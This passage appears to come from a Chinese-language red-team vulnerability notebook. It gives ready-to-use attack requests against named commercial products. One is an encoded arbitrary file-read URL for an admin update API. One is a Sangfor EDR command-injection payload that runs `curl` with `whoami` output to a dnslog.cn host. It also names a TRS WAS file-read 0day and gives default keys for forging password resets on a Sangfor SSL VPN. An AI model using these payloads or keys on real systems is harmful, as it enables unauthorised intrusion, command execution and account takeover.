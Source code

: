 > 文件读取,后面那一串是UTF8字符串加密后的结果。计算方式在Update.php中的加密函数
>
```angular2
/admin.html?s=admin/api.Update/get/encode/

34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34
```
![](images/hvv_37.png)

### 深信服EDR 远程命令执行
> 遇到这样的漏洞反手就是一个赞。

```angular2
/api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9

{"params": "w=123\"'1234123'\"|curl `whoami`.dnslog.cn"}
```
![](images/hvv_38.png)

### 0day预警:
> 拓尔思TRSWAS5.0文件读取漏洞（CNVD-2020-27769）

# 20200918

### 某服SSL VPN任意密码重置
> 某VPN加密算法使用了默认的key,攻击者构利用key构造重置密码数据包从而修改任意用户的密码
> 
> 利用:需要登录账号
>
> M7.6.6R1版本key为20181118
> 
> M7.6.1key为20100720

